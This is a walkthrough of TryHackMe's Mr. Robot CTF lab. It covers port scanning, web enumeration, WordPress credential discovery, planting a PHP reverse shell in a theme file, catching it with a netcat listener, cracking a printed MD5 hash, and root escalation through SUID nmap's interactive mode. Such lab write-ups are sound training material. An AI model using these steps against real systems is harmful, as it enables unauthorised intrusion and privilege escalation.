# Mr. Robot CTF — TryHackMe Write-up

A step-by-step write-up for the **Mr. Robot CTF** machine from TryHackMe.

[Visit CTF on TryHackMe](https://tryhackme.com/room/mrrobot)

> **Disclaimer:** This write-up is for an authorized CTF/lab environment. Do not apply these techniques to systems you do not have explicit permission to test.

## Table of Contents

- [1. Reconnaissance](#1-reconnaissance)
- [2. Web Enumeration](#2-web-enumeration)
- [3. robots.txt](#3-robotstxt)
- [4. Downloading the Dictionary and First Key](#4-downloading-the-dictionary-and-first-key)
- [5. The license Page](#5-the-license-page)
- [6. WordPress Login](#6-wordpress-login)
- [7. Getting a Reverse Shell](#7-getting-a-reverse-shell)
- [8. Shell Stabilization](#8-shell-stabilization)
- [9. Getting Access as robot](#9-getting-access-as-robot)
- [10. Privilege Escalation](#10-privilege-escalation)
- [11. Getting the Third Key](#11-getting-the-third-key)
- [12. Attack Path Summary](#12-attack-path-summary)

---

## 1. Reconnaissance

I started with a full TCP port scan and service/version detection using Nmap:

```bash
nmap -sCV -p- <TARGET_IP> --min-rate=3000 -oN mrrobot
```

The scan revealed three open ports:

| Port | Service | Notes |
|---:|---|---|
| 22 | SSH | OpenSSH |
| 80 | HTTP | Apache |
| 443 | HTTPS | Apache |



The web services on ports 80 and 443 became the primary focus.

---

## 2. Web Enumeration

A manual check of the website revealed a terminal-style interface. The available commands displayed different pieces of content related to the *Mr. Robot* theme. The `join` option requested an email address, which I skipped.



I also inspected the page source. Nothing immediately useful stood out.



Next, I performed directory enumeration with Gobuster. This revealed several interesting paths, including `/robots.txt`, `/license`, and `/wp-admin`.



---

## 3. robots.txt

Checking `/robots.txt` revealed two interesting entries:

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```



Both files were directly accessible from the web server.

---

## 4. Downloading the Dictionary and First Key

I downloaded both files using `wget`:

```bash
wget http://<TARGET_IP>/fsocity.dic
wget http://<TARGET_IP>/key-1-of-3.txt
```



The first key was successfully retrieved.



The `fsocity.dic` file is a password dictionary containing a large number of entries, which would become useful for password attacks later in the challenge.

---

## 5. The license Page

Next, I inspected the `/license` directory.



At first glance, the page looked like a rabbit hole. However, scrolling further revealed an encoded string:



The trailing `=` was a strong indication that the value was Base64-encoded. Decoding it produced credentials



## 6. WordPress Login

I then checked `/wp-admin` and found a WordPress login page.



Using the credentials obtained from `/license`, I was able to log in and obtained editor-level access.



---

## 7. Getting a Reverse Shell

Because the WordPress account had permission to edit theme files, I used the **Appearance → Theme File Editor** functionality to modify the `404.php` template.

The modified PHP template contained a PHP reverse-shell payload. The important point here is that the target executes the PHP file when the corresponding `404.php` URL is requested.





On my attacking machine, I started a Netcat listener:

```bash
nc -lvnp 9001
```


I then requested the modified template:

```text
http://<TARGET_IP>/wp-content/themes/twentyfifteen/404.php
```



The connection came back to the listener, giving me a shell on the target as the `daemon` user.



---

## 8. Shell Stabilization

The initial shell was not fully interactive, so I stabilized it with Python:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```



This made subsequent commands much easier to work with.

---

## 9. Getting Access as robot

I enumerated `/home` and found two users:

```bash
cd /home
ls
```

The users were:

```text
robot
ubuntu
```

Inside `/home/robot`, two files were present:

```text
key-2-of-3.txt
password.raw-md5
```

The second key was not readable as `daemon`, but `password.raw-md5` was accessible:

```text
robot:c3fcd3d76192e4007dfb496cca67e13b
```



The password was stored as an MD5 hash, so I cracked the hash using an online hash lookup service.



With the recovered password, I logged in as `robot` over SSH.



I could now access `/home/robot` as the correct user and retrieve the second key.



---

## 10. Privilege Escalation

The next objective was to obtain root access and retrieve the final key.

First, I checked whether `robot` had any useful sudo permissions:

```bash
sudo -l
```

The result showed that `robot` could not run commands through sudo.



I then searched for SUID binaries:

```bash
find / -user root -perm /4000 2>/dev/null
```

Among the results was an unusual entry:

```text
/usr/local/bin/nmap
```



An SUID-enabled Nmap binary is particularly interesting because older Nmap versions provided an interactive mode capable of spawning a shell. GTFOBins documents this technique.



I launched Nmap in interactive mode:

```bash
nmap --interactive
```

Then, from the Nmap interactive prompt, I spawned a shell:

```text
nmap> !/bin/sh
```

The resulting shell had root privileges.



---

## 11. Getting the Third Key

The root shell did not behave exactly like a normal shell when changing directories, so instead of relying on `cd`, I directly listed the contents of `/root`:

```bash
ls /root
```

This revealed the final key file:

```text
key-3-of-3.txt
```



Finally, I read the third key:

```bash
cat /root/key-3-of-3.txt
```



And that completed the machine.

---

## 12. Attack Path Summary

The complete attack chain was:

```text
Nmap
  ↓
Web enumeration
  ↓
robots.txt
  ↓
fsocity.dic + key-1-of-3.txt
  ↓
/license
  ↓
Base64-decoded WordPress credentials
  ↓
WordPress editor access
  ↓
Modify 404.php
  ↓
Reverse shell as daemon
  ↓
Enumerate /home
  ↓
MD5 hash for robot
  ↓
Crack hash
  ↓
SSH as robot
  ↓
SUID enumeration
  ↓
SUID /usr/local/bin/nmap
  ↓
nmap --interactive
  ↓
Root shell
  ↓
key-3-of-3.txt
```

## Key Takeaways

- Always inspect `robots.txt`; it can expose files that are not meant to be obvious from normal navigation.
- Directory enumeration is useful even when the main website looks like a distraction.
- Web application credentials can sometimes be hidden in source files or seemingly irrelevant endpoints.
- A WordPress account with file-editing privileges can provide a path to code execution.
- After obtaining a shell, enumerate users, permissions, SUID binaries, and sudo configuration.
- An unexpected SUID binary such as an old Nmap installation can provide a privilege-escalation path.

---

**Platform:** TryHackMe  
**Machine:** Mr. Robot CTF  
**Focus:** Web enumeration, credential discovery, WordPress exploitation, reverse shells, Linux enumeration, SUID privilege escalation
